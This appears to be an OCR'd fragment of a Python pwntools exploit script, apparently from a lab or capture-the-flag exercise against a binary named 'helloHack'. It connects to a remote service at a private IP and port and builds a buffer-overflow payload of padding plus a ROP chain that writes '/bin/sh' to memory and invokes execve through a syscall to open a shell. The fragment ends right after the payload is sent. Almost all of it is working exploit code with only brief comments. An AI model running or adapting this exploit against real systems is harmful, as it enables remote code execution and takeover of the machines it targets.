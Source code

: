     proc = remote( '192.168.111.30', '1111' ) # Server: IP address, PORT number
    
    time.sleep(5)                        # Take some time to connect
    
    # ----------------------------------------------------------------------
    # find RW address:  info proc mappings
    #                   x/100gx *0x00000000004d2000
    # ROP example:   ROPgadget --binary helloHack | grep "pop rax ; ret"
    # ----------------------------------------------------------------------
    
    log.info( 'Creating payload' )
    
    payload  = ( 'A' * 72 ).encode()     # Padding
    
    # *0x00000000004d2350 = '/bin/sh'
    payload += p64( 0x00000000004539b3 ) # pop rax ; ret <- 4d2150 (rw addr)
    payload += p64( 0x00000000004d2150 )
    payload += p64( 0x00000000004016db ) # pop rdx ; ret <- '/bin/sh'
    payload += p64( 0x0068732f6e69622f )
    payload += p64( 0x000000000047d44d ) # mov qword ptr [rax], rdx
    
    # syscall(SYS_EXECVE,'/bin/sh',NULL,NULL)
    payload += p64( 0x00000000004539b3 ) # pop rax ; ret <- 0x3b = SYS_EXECVE
    payload += p64( 0x000000000000003b )
    payload += p64( 0x0000000000401911 ) # pop rdi ; ret <- 4d2150 ('/bin/sh')
    payload += p64( 0x00000000004d2150 )
    payload += p64( 0x00000000004087fe ) # pop rsi ; ret <- 0x00
    payload += p64( 0x0000000000000000 )
    payload += p64( 0x00000000004016db ) # pop rdx ; ret <-  0x00
    payload += p64( 0x0000000000000000 )
    payload += p64( 0x000000000040121a ) # syscall

    # -----------------------------------------------------------------------
    
    log.info( 'Sending payload' )
    proc.recvuntil( b'What is your name?\n' )
    proc.sendline( payload )
    